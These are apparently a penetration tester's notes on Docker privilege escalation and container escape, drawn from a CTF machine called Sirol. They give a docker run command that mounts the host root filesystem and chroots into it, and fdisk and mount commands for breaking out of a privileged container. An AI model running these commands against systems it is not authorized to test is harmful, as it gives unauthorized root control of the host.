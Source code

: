 # Docker

{% embed url="https://github.com/tranquac/Linux-Privilege-Escalation#docker" %}

{% embed url="https://gtfobins.github.io/gtfobins/docker/" %}

{% embed url="https://flast101.github.io/docker-privesc/" %}

### Enumerate images and processes

```
docker ps 
docker images
```

Based on the running images we can now attempt to elevate privileges through them.

```
docker run -v /:/mnt --rm -it <imagees> chroot /mnt sh
```

### Breaking Out of Docker Env

Lets say for whatever reason Fabian, you seem to list and things aren't where they are supposed to be and if you run `ls -la` Youll notice that something doesnt seem right.

![](../../../.gitbook/assets/2022-08-10\_16-24.png)

In the case of Sirol we were root in a docker environment.&#x20;

In order to break out we must first list the disks in the computer and then mount one to our own and we will be able to navigate to the filesystem.

`fdisk -l`

![](<../../../.gitbook/assets/image (52).png>)

This command as seen above lists the disk names and their paths. In order to break out we shall ran the following commands.&#x20;

```
mkdir /mnt/own
mount ##THIS CAN BE CHANGED/dev/sda1 ####/mnt/own
cd /mnt/own
```

Notice that in the code we gotta change accordingly which the lists of disks that are in the machine.

Once we execute those commadns we will have full control of the filesystem.

![](<../../../.gitbook/assets/image (73).png>)
